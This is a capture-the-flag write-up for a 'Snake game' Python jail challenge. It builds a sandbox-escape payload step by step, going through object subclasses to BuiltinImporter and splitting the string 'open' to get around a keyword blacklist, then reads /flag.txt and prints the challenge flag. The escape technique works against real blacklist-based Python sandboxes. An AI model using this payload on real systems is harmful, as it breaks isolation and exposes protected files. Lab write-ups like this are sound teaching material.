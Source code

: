 # Snake game
## Description

![](img/20241101212725.png)

## Solution

In this challenge, a very limited Python interpreter is provided. It does not allow module import, printing, or opening files. Some keywords, such as `open`, `print`, etc., are blacklisted. Examples of this behavior are shown below.

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : import io
This is not allowed: import
```

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : print("as")
I'm confused - name 'print' is not defined
```

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : open("/flag.txt")
This is not allowed: open
```

To escape this python sandbox and exfiltrate the flag, a payload can be built incrementally.

```python
# tuple
()

# tuple class
().__class__

# parent classes
().__class__.__bases__

# 'object' class
().__class__.__bases__[0]

# subclasses of 'object'
().__class__.__bases__[0].__subclasses__()

# _frozen_importlib.BuiltinImporter
().__class__.__bases__[0].__subclasses__()[107]

# instantiate Importer
().__class__.__bases__[0].__subclasses__()[107]()

# load (import) 'io' module
().__class__.__bases__[0].__subclasses__()[107]().load_module("io")

# 'io' module dictionary
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__

# 'open' function (split in two parts due to the blacklisting)
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]

# open the flag file
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt")

# read the flag
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt").read()
```

Final payload is:

```python
().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt").read()
```

When run against the server, the flag is revealed.

```
$ nc snakegame.leisure.tcc 23001
Hello, I can only speak Python, show me your code.
Enter your code : ().__class__.__bases__[0].__subclasses__()[107]().load_module("io").__dict__["op" "en"]("/flag.txt").read()
FLAG{lY4D-GJaQ-VUks-PNQd}
```

## Flag

`FLAG{lY4D-GJaQ-VUks-PNQd}`
